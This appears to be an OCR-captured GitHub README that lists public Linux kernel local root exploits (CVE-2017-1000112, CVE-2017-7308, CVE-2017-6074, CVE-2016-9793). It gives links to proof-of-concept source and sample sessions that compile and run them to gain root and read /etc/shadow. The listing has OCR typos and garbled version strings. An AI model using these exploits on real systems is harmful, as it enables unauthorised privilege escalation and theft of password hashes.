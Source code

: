 # Ecploit-kernel-4.10-linux-local
Linux kernel &lt; 4.10.15 - Race Condition Privilege Escalation
Linux kernel < 4.10.15
CVE-2017-1000112
This is a proof-of-concept local root exploit for the vulnerability in the UFO Linux kernel implementation CVE-2017-1000112.

Some details: http://www.openwall.com/lists/oss-security/2017/08/13/1

s/timerfd.c Vulnerbility Exploit
Vulnerable: Kernal
Google Android 0
Debian Linux 6.0 sparc
Debian Linux 6.0 s/390
Debian Linux 6.0 powerpc
Debian Linux 6.0 mips
Debian Linux 6.0 ia-64
Debian Linux 6.0 ia-32
Debian Linux 6.0 arm
Debian Linux 6.0 amd64
http://ricklarabee.blogspot.com.tr/2017/12/adapting-poc-for-cve-2017-1000112-to.html
EXPLOIT
https://github.com/xairy/kernel-exploits/tree/master/CVE-2017-1000112
// user@ubuntu:~$ uname -a
// Linux ubuntu 4.8.0-58-generic #63~16.04.1-Ubuntu SMP Mon Jun 26 18:08:51 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

// user@ubuntu:~$ id
// uid=1000(user) gid=1000(user) groups=1000(user),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)

// user@ubuntu:~$ gcc pwn.c -o pwn
// user@ubuntu:~$ ./pwn
// user@ubuntu:/home/user# id
// uid=0(root) gid=0(root) groups=0(root)
https://www.exploit-db.com/exploits/41994/
Linux Kernel 4.8.0-41-generic (Ubuntu)

Exploit :
https://github.com/xairy/kernel-exploits/blob/master/CVE-2017-7308/poc.c
// user@ubuntu:~$ uname -a
// Linux ubuntu 4.8.0-41-generic #44~16.04.1-Ubuntu SMP Fri Mar 3 ...
// user@ubuntu:~$ gcc pwn.c -o pwn
// user@ubuntu:~$ ./pwn
// user@ubuntu:/home/user# id
// uid=0(root) gid=0(root) groups=0(root)
https://www.exploit-db.com/exploits/41994/
Linux Kernel 4.4.0 (Ubuntu) - DCCP Double-Free (PoC)
Includes a semireliable SMAP/SMEP bypass.

Exploit :
https://github.com/xairy/kernel-exploits/blob/master/CVE-2017-6074/poc.c
// Usage:
// $ gcc poc.c -o pwn
// $ ./pwn
// # cat /etc/shadow
// ...
// daemon:*:17149:0:99999:7:::
// bin:*:17149:0:99999:7:::
// sys:*:17149:0:99999:7:::
// sync:*:17149:0:99999:7:::
// games:*:17149:0:99999:7:::
______________________
https://www.exploit-db.com/exploits/41995/
Linux Kernel 3.11 < 4.8 0 - 'SO_SNDBUFFORCE'

Exploit :
https://github.com/xairy/kernel-exploits/blob/master/CVE-2016-9793/poc.c
// Usage:
// # gcc -pthread exploit.c -o exploit
// # chown guest:guest exploit
// # setcap cap_net_admin+ep ./exploit
// # su guest
// $ whoami
// guest
// $ ./exploit
// # whoami
// root
